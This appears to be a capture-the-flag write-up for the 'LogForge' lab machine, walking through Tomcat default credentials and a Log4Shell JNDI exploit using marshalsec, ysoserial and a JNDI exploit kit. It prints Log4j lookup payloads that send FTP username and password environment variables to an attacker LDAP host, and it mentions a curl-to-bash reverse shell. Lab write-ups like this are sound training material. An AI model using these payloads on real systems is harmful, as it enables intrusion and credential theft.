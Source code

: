 # LogForge

![LogForge.png](LogForge/LogForge.png)

### 12/24/2021

![Untitled](LogForge/Untitled.png)

This is a tomcat server

![Untitled](LogForge/Untitled%201.png)

Because the server has a tomcat but in response shows apache2, it’s probably reversing proxys we can use orange tsai lfi.

![Untitled](LogForge/Untitled%202.png)

The login credential of the panel is tomcat:tomcat.

![Untitled](LogForge/Untitled%203.png)

Look my netcat receive the connection from the tomcat

![Untitled](LogForge/Untitled%204.png)

Reproducing Log4J with base in this github

[https://github.com/xiajun325/apache-log4j-rce-poc](https://github.com/xiajun325/apache-log4j-rce-poc)

So git clone the marshalsec repository

```python
git clone https://github.com/mbechler/marshalsec
```

After that install the maven

```python
sudo apt-get install maven
```

After that compile the java package, Maven is a build automation tool used primarily used in Java Projects. 

```python
mvn clean package -DskipTests
```

![Untitled](LogForge/Untitled%205.png)

The reverse shell not work, probably we must have to use the Ysoserial modified sending serialized objects.

In the Isoserial we can look the help returning in the screen:

![Untitled](LogForge/Untitled%206.png)

So now I created a java serialized object:

![Untitled](LogForge/Untitled%207.png)

Running LNDI exploit:

![Untitled](LogForge/Untitled%208.png)

```python
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.26:1389 -P ~/Desktop/YSO5.ser
```

After some tries it works: Simple i change the payload to the curl executing a bash.

![Untitled](LogForge/Untitled%209.png)

Python server to receive the GET:

![Untitled](LogForge/Untitled%2010.png)

JNDI exploit kit:

![Untitled](LogForge/Untitled%2011.png)

Reverse shell:

![Untitled](LogForge/Untitled%2012.png)

In the following steps we have to decompile the ftpServer to look at somethings. The server is running on root user.

![Untitled](LogForge/Untitled%2013.png)

It uses log4j again.

![Untitled](LogForge/Untitled%2014.png)

We need to abuse of environment variables:

![Untitled](LogForge/Untitled%2015.png)

To extract this we will use the wireshark and do a little change in the payload: With that we can grab the ftp_user environment.

```python
${jndi:ldap://10.10.14.26:1389/${env:ftp_user}}
```

Wireshark with filter to point to port 1389.

Inserting payload in ftp:

![Untitled](LogForge/Untitled%2016.png)

It returns the user in the request:

![Untitled](LogForge/Untitled%2017.png)

Password:

```python
${jndi:ldap://10.10.14.26:1389/${env:ftp_password}}
```

![Untitled](LogForge/Untitled%2018.png)

log4j_env_leakage

Other options to exfiltrate:

![Untitled](LogForge/Untitled%2019.png)
